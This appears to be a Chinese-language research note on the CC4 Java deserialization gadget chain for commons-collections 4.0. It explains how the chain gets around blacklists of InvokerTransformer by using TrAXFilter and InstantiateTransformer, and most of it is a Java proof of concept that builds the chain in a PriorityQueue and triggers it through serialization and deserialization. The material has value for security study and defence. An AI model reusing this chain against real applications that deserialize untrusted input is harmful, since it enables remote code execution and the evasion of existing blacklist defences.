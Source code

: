 - [CC4](#cc4)
  - [修改CC2](#修改cc2)
# CC4
条件:   
* commons-collections = 4.0

CC4链主要是对CC2链的变形,用来绕过含有`InvokerTransformer`类的黑名单,使用`TrAXFilter`和`InstantiateTransformer`两个类来代替`InvokerTransformer`类.
## 修改CC2
`TrAXFilter`和`InstantiateTransformer`两个类的原理见CC3,直接在CC2的基础上进行修改即可.
```java
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[] {getTemplate()})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(2);
        Field comparator = queue.getClass().getDeclaredField("comparator");
        comparator.setAccessible(true);
        comparator.set(queue, transformingComparator);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
```

